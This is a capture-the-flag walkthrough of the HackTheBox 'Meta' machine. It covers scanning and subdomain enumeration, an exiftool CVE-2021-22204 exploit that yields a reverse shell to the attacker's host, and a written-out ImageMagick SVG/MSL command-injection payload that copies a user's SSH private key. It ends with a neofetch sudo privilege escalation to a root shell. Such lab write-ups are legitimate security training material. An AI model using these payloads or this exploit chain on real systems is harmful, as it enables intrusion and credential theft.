

# [Meta](https://app.hackthebox.com/machines/meta)

```bash
nmap -p- --min-rate 10000 10.10.11.140 -Pn
```


After detection of open ports (22,80), let's do greater nmap scan.

```bash
nmap -A -sC -sV -p22,80 10.10.11.140 -Pn 
```


It automatically redirects into 'artcorp.htb', let's add this into '/etc/hosts' file.


Let's do subdomain enumeration.

```bash
ffuf -u http://artcorp.htb/ -H "Host: FUZZ.artcorp.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc 200
```


Let's add 'dev01.artcorp.htb' into '/etc/hosts' file, too.

I browse this application.


I just understand that I give image file (png or jpg) and it returns `exiftool` result to me.


I searched publicly known exploit for `exiftool`.

That's [CVE-2021-22204](https://github.com/UNICORDev/exploit-CVE-2021-22204.git).


```bash
python3 exploit-CVE-2021-22204.py -s 10.10.14.4 1337
```


After uploading malicious image file into application, I got reverse shell from port 1337.


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


Let's upload `pspy64` to identify hidden processes.

1.First, let's open HTTP server.
```bash
python3 -m http.server --bind 10.10.14.4 8080
```


2.Second, we need to upload `pspy64` into target machine.
```bash
wget http://10.10.14.4:8080/pspy64
```


After running of `pspy64`, I see that `mogrify` process is running.


Let's look at the version of `mogrify`.


I found a exploit for this version of mogrify whose id is [CVE-2020-29599](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)


So that, first I need to create malicious .svg file (whic reads private key (id_rsa) of '**thomas**' user) and upload this into Meta application (website checks via `exiftool`).

```svg
<image authenticate='ff" `cat /home/thomas/.ssh/id_rsa > /dev/shm/key`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:poc.svg" height="100" width="100"/>
  </svg>
</image>
```

And we need to upload this malicious `.svg` file into this directory called '/var/www/dev01.artcorp.htb/convert_image' which will be executed by bash script called '**convert_images.sh**'.


I got id_rsa file as below.


I copied this private_key (id_rsa) file into my machine, change the permissions of private key.

```bash
chmod 600 id_rsa
ssh -i id_rsa thomas@10.10.11.140
```

user.txt


I just check my user's privileges via `sudo -l` command.


I found a [exploit](https://gtfobins.github.io/gtfobins/neofetch/#shell) on GTFObins.

But GTFobins exploit's doesn't work as becuase 'XDG_CONFIG_HOME' variable for `thomas` user.


```bash
echo 'exec /bin/sh' > .config/neofetch/config.conf 
XDG_CONFIG_HOME=~/.config sudo neofetch
```


root.txt


